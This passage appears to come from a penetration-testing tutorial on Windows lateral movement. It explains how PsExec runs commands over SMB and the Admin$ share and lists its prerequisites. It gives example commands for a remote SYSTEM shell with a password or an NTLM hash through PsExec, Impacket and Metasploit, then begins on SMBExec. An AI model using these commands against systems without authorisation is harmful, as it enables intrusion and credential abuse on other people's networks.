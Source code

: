 `PsExec` is a practical `Windows` remote control tool officially provided by Microsoft. It can perform management operations on remote systems based on credentials and can obtain almost the same real-time interaction as the command line.

The principle of `PsExec` is to connect to the `Admin$` share of the server through `SMB`, and release a binary file named "`psexecsvc.exe`", and then register a service named "PSEXECSVC`". When the client executes the command, the server starts the corresponding program execution command through the PSEXECSVC service and echoes the data. After the run is completed, the `PSEXECSVC` service will be deleted.

The following conditions are required when using `PsExec` for remote operation:

1. The remote host has enabled `Admin$` sharing;
2. The `139` or `445` ports of the remote host need to be enabled, that is, the `SMB` service port, and the firewall needs to release the port;
3. Have permission to write files to shared folders;
4. Have a plain text password or `NTLM` hash;
5. Ability to create services on remote machines: `SC_MANAGER_CREATE_SERVICE`;
6. Able to start the created service: `SERVICE_QUERY_STATUS && SERVICE_START`.

`PsExec` usage:

```powershell
psexec.exe -accepteula \\10.10.10.137 -u HACK-MY\Administrator -p Admin@123 -s cmd
.exe

# -accepteula Disable the pop-up of license dialog box
# -u Specify the username of the remote host
# -p Specify the user's password
# -s Start the process with SYSTEM permission
```

In intranet penetration, if you already have the corresponding credentials (such as `IPC$` connection), you can directly use `PsExec` to connect to the remote host.

```powershell
PsExec.exe -accepteula \\10.10.10.137 -s cmd.exe
```

Both Impacket and Metasploit are built in scripts or modules that execute remote commands based on PsExec.

```powershell
#Impacket
python3 psexec.py domain/user:password@ip
python3 psexec.py domain/user@ip -hashes :161cff084477fe596a5db81874498a24

# Metasploit
use exploit/windows/smb/psexec
```

## ****SMBExec Remote Control****

Using `SMBExec`, you can execute commands in a remote system through file sharing (`admin$`, `c$`, `ipc$`, `d$`). It works similar to `PsExec`, but `SMBExec` does not put binary files on disk, and `SMBExec` uses a batch file and a temporary file to execute and forward messages.
